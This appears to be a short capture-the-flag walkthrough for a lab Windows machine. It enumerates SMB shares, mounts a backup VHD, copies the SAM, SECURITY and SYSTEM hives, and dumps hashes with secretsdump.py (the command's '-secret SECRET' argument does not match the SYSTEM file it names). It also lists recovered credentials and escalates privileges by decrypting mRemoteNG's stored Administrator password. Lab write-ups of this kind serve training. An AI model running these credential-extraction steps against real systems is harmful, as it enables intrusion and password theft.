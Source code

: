 List SMB shares:
```bash
smbclient -L \\\\<ip>\\
```

Connect to *Backups* share:
```bash
smbclient \\\\<ip>\\Backups
```

Download *note.txt*:
```smb
get note.txt
```

Mount .vhd files remotely:
Mounting VHD Files - [https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)

From the directory *Windows/System32/config/* download the following files:
- SAM
- SECURITY
- SYSTEM

Extract hashes:
```bash
secretsdump.py -sam SAM -security SECURITY -secret SECRET LOCAL
```
=> User: l4mpje, Password: bureaulampje

Login to ssh with these creds.

---
PrivEsc

In `C:\Program Files (x86)` is a program named *mRemoteNG*.
Google:
- mRemoteNG stores pw in an XML file in user *appdata* folder
- There is exploits available.

Run exploit with Administrator encrypted password from XML file -> Administrator password

ssh login with administrator creds